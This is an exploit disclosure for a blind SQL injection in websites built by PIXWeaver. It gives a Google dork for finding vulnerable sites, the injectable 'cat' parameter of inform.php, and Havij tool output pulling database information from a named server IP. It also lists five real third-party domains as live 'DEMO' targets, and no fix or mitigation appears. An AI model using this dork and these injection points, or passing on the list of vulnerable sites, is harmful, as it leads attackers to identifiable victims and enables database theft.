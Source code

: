 #Website by PIXWeaver Blind SQL Injection Disclosure

* Exploit Title        : Website by PIXWeaver Blind SQL Injection Disclosure
* Google Dork          : inurl:/inform.php?cat=
* Date                 : 26/08/2014
* Exploit Author       : Barrabravaz
* Vendor Homepage      : http://www.pixweaver.com/
* Version              : -
* Tested on            : Windows, Linux

## Author will be not responsible for any damage
#### Issue: 
##### Blind SQL Injection Disclosure Vulnerability
#### Risk level: High

### Proof Of Concept:
`http://127.0.0.1/inform.php?cat=%inject_here%&pv=45`
* ( take Havij for example )
* Host IP: 207.112.70.25
* Web Server: Apache/2.2.27
* Powered-by: PHP/5.4.16
* Keyword Found: Last
* Injection type is String (')
* DB Server: MySQL >=5
* Trying another method using keyword for finding columns count
* Findig columns count for MySQL failed!
* Testing for MySQL error based injection method
* MySQL error based injection method cant be used!
* Trying blind method
* Finding current data base
* Length of 'Current DB' is 7
* Current DB: test_db

## DEMO
http://toybuildingzone.com/inform.php?cat=%inject_here%&pv=45
http://www.sportsystemscorp.com/inform.php?cat=%inject_here%
http://www.cantow.ca/inform.php?cat=%inject_here%&nv=188
http://www.agl.ca/inform.php?cat=%inject_here%&nv=23
http://www.movemyhottub.ca/inform.php?cat=%inject_here%&nv=150

## Thanks To
* Allah SWT
* Cyptn my beloved
* $$Hunter
* IDC
* Jim Geovedi
* Yogyakarta Blackhat
* Yogyacarderlink
* And You

* Discovered By Barrabravaz
* barrabravaz@outlook.com 
* jasasekuritionline[dot]com
* https://fb.me/akubocahmuyank

[Original Article](http://www.surabayablackhat.org/forum/thread-3112.html)